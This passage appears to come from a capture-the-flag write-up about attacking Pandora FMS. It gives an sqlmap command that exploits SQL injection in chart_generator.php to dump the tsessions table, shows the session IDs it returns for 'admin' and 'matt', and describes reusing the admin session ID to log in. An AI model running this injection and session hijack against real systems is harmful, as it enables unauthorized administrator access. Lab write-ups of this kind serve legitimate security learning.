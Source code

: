 I wanted to see tsessions table in Pandora database to get any running sessions.I used the sqlmap command slight differently.

```noLineNumbers
sqlmap -u "localhost:8081/pandora_console/include/chart_generator.php/?session_id='' " -D Pandora -T tsessions --dump
```

Output:

```
dpnq592rmkdof3o48mf1g3l8go,NULL,1646267969
dqa4g2u5t3a0n9im1jo60jtmsr,NULL,1646272968
dquu534edhm0qjd0of7a6quof2,"id_usuario|s:5:""admin"";alert_msg|a:0:{}new_chat|b:0;",1646263054
dss0snmh3bsm6ihp5uebquic14,NULL,1646267970
fcvrhp8k1bst0bc09jq66gr9mb,NULL,1646272787
fdj2uq6f86k1hnjvm4f7caj475,"alert_msg|a:0:{}new_chat|b:0;id_usuario|s:5:""admin"";",1646274439
fe3sc8c2b6hv6qf3m6qfnkls7t,NULL,1646267966
fq8s3shd4c9dl5o3b6i9cshs4d,NULL,1646272962
g1dn8s39nia0cd4jngi8n9jmtb,NULL,1646272758
g3ens9fnqjmigvaci0livfs9q4,NULL,1646267969
g4e01qdgk36mfdh90hvcc54umq,"id_usuario|s:4:""matt"";alert_msg|a:0:{}new_chat|b:0;",1638796349

```

Setting the session id of admin , I logged in as admin(here matt is the admin).

![fms](./fms.png)
